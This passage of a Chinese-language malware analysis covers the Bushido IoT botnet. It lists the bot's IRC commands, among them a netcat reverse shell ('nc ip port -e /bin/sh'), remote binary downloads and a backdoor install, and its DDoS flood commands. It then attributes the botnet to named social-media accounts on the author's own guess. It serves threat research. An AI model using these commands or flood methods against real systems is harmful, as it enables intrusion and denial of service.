 - UPDATE&lt;src:bin&gt; : Update this bot
- HACKPKG: HackPkg is here! Install a bin, using http, no depends!
- VERSION : Requests version of client
- KILLALL : Kills all current packeting
- HELP : Displays this
- IRC: Sends this command to the server
- SH: Executes a command
- ISH: SH, interactive, sends to channel
- SHD: Executes a psuedo-daemonized command
- GETBB: Get a proper busybox
- INSTALL &lt;http server/file_name&gt; : Download &amp; install a binary to /var/bin
- BASH: Execute commands using bash.
- BINUPDATE http:server/package : Update a binary in /var/bin via wget
- SCAN: Call the nmap wrapper script and scan with your opts.
- RSHELL: Equates to nohup nc ip port -e /bin/sh
- LOCKUP http:server : Kill telnet, d/l aes backdoor from, run that instead.
- GETSSH http:server/dropbearmulti : D/l, install, configure and start dropbear on port 30022.
### <a class="reference-link" name="%E6%81%B6%E6%84%8F%E8%84%9A%E6%9C%AC%E6%8B%A5%E6%9C%89%E7%9A%84%E6%8C%87%E4%BB%A4"></a>恶意脚本拥有的指令
- mail [to] [from] [subject] [message]
- dns [host]
- rndnick
- raw [irc] [data]
- uname
- eval [php] [code]
- exec [command] [args]
- cmd [command] [args]
- udpflood [ip] [port] [time] [packet] [size]
- tcpconn [host] [port] [time]
- slowread [host] [port] [page] [sockets] [time]
- slowloris [host] [time]
- l7 method [host] [time]
- post [host] time
- head [host] [time]
- tcpflood [host] [port] [time]
- httpflood [host] [port] [time] [method] [url]
- proxyhttpflood [targetUrl(with http://)] [proxyListUrl] [time] [method]
- cloudflareflood [host] [port] [time] [method] [url] [postFields]
- ud.server [host] [port] [pass] [chan]


## 恶意样本背后的人

当我们连接上 IRC 服务器的时候会发现如下信息：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.mien.in/2018/09/02/reversing-bushido-iot-botnet-by-zullsec/irc-botnet.png)

我在 twitter 上搜索以上关键字，结果发现了两个账号
1. [m4licious](https://twitter.com/m4licious_0sec)
1. [M1rOx](https://twitter.com/M1r0x__)
这些账号属于某个称为 Offsecurity 的组织，我猜测他们试图将这个僵尸网络出售，通过一点谷歌搜索我发现了更多信息：
1. [Twitter](https://twitter.com/zullsec)
1. [facebook](https://www.facebook.com/ZullSec)
1. [youtube](https://www.youtube.com/watch?v=l2m-i0pmC9w)


## 结论

这个恶意软件并没有新奇的行为，我猜测它是根据开源工具 Mirai 改的，他们通过控制web服务器和 iot 设备发动 DDOS 攻击，并通过 IRC 服务器控制所以恶意终端。
